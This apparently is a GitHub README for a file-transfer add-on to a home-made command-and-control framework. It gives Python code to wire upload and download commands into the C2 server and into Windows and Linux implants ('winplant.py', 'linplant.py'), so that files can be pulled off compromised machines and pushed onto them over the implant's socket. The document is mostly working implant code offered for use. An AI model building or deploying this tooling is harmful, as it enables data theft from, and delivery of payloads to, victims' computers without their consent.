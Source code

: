 # File Transfer Module

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

This module adds a function file called transfer.py to the project, which can be used to upload and download files to and from the C2 server.

# Usage

### smtp.py 

1. Create a new folder called "functions", and add the transfer.py file to it. 
2. Inside of the sockserver.py file, add the following imports:
```
import os.path
from functions.transfer import upload_file, download_file
```
3. Inside of the target_comm function of the main script, add the following
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                print(filename)
                try:
                    if os.path.exists(filename):
                        print('file exists')
                        filename = os.path.basename(filename)
                        download_file(filename)
                    else:
                        print('False')
                        response = '0'
                        response = bytes((response), encoding='utf8')
                        secure_sock.send(response)
                except FileNotFoundError:
                    pass
```
3. Inside of both the winplant.py and linplant.py files, add the following functions:
```
def upload_file(file_name):
    try:
        f = open(file_name, 'wb')
        secure_sock.settimeout(2)
        chunk = secure_sock.recv(8192)
        while chunk:
            f.write(chunk)
            try:
                chunk = secure_sock.recv(8192)
            except socket.timeout as e:
                break
        secure_sock.settimeout(None)
        f.close()
    except Exception as e:
        print(e)


def download_file(file_name):
    try:
        f = open(file_name, 'rb')
        while True:
            try:
                bytes_read = f.read(8192)
                if not bytes_read:
                    break
                secure_sock.send(bytes_read)
            except Exception as e:
                print(e)
    except Exception as e:
        print(e)
```
4. Inside of the session_handler function of both payloads, add the following:
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                filename = os.path.basename(filename)
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                download_file(filename)
```

### Functionality 
Using the ```upload``` and ```download``` commands followed by the file name to send, you can transfer files to and from.
